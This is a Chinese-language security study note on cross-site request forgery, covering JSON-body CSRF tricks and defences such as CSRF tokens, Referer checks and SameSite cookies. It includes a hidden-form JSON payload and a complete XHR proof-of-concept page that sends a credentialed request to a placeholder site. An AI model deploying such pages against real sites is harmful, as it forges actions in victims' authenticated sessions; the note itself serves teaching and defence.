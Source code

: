 - [CSRF](#csrf)
  - [原理](#原理)
  - [CSRF with Json](#csrf-with-json)
    - [JSON格式](#json格式)
    - [XHR](#xhr)
    - [307 Flash跳转](#307-flash跳转)
  - [修复方案](#修复方案)
    - [CSRF Token](#csrf-token)
    - [校验HTTP Referer](#校验http-referer)
    - [自定义Header Token](#自定义header-token)
    - [设置 SameSite](#设置-samesite)
  - [参考](#参考)

# CSRF

## 原理
原理在于服务端无法确定请求是否是由正常用户发起的,攻击者将敏感请求嵌入在恶意页面中,受害者访问该页面自动触发该请求,受害者浏览器使用受害者的凭据自动向服务器进行敏感请求操作.
## CSRF with Json
### JSON格式
Post JSON数据格式的数据需要构造表单,把post数据作为参数名发送,最后还需要闭合多余的字符.  
`<input type="hidden" name='{"data":"300016001555","test":"' value='test"}' />`
但表单无法设置Content-Type为application/json,如果服务端校验Content-Type则会拒绝该请求.
### XHR
Content-Type头需要设置为application/json。设置自定义Header需要使用XMLHttpRequests,同时需要CORS.
使用XHR提交来设置Content-Type,但该方式会先发生OPTIONS请求,要求服务端不会对该OPTIONS请求的Content-Type做检验,同时需要CORS.
```html
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://www.xxxxx.com/AAA", true);
        xhr.setRequestHeader("Accept", "*/*");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "application/json; charset=utf-8");
        xhr.withCredentials = true;
        xhr.send(JSON.stringify({"data":"300016001555","test":"test"}));
    }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();"/>
    </form>
  </body>
</html>
```
### 307 Flash跳转
通过Flash的跨域和307跳转来绕过限制,307跳转会保持原请求原封不动的进行转发,还是会受到CORS的限制.  
https://github.com/appsecco/json-flash-csrf-poc
## 修复方案
### CSRF Token
在敏感页面的请求中加入唯一的Token,后端对敏感请求进行Token校验,而正常情况下(如果存在XSS或暴露在URL请求中仍然可能导致获得Token)攻击者无法获得该Token,则无法冒充用户进行敏感操作.
### 校验HTTP Referer
验证 HTTP Referer 字段，是否是从信任域名发送请求.
### 自定义Header Token
HTTP 头中自定义属性（如Authorization）并验证,类似于加Token,只是加在HTTP头中,即每个页面都会带上该Token校验头,而不必在每个相关页面代码中都加上Token. 

### 设置 SameSite 
设置SameSite: (https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie/SameSite) 
SameSite是 HTTP 响应头 Set-Cookie 的属性之一。它允许您声明该 Cookie 是否仅限于第一方或者同一站点上下文。  
SameSite 接受下面三个值:
* Lax: 比Strict模式宽松一些，允许在跨站点使用GET请求时携带Cookie。这种模式适用于需要跨站点GET请求的场景，同时也能提供一定的安全保护。
* Strict: 完全禁止第三方Cookie，即跨站点时不会携带Cookie，只有当前站点和访问站点的URL一致时才能携带Cookie。这种模式可以有效防止CSRF攻击，但可能会导致用户在跨站点时需要重新登录。
* None: 允许Cookie在所有请求中携带，但必须与Secure属性一起使用（即Cookie只能通过HTTPS协议发送）。这种模式适用于需要无限制携带Cookie的场景，但要求网站必须使用HTTPS。

![](11-06-21.png)  
## 参考
https://blog.csdn.net/zl834205311/article/details/81773511
https://tech.meituan.com/2018/10/11/fe-security-csrf.html
https://www.hahwul.com/2016/06/30/web-hacking-putdelete-csrfcross-site/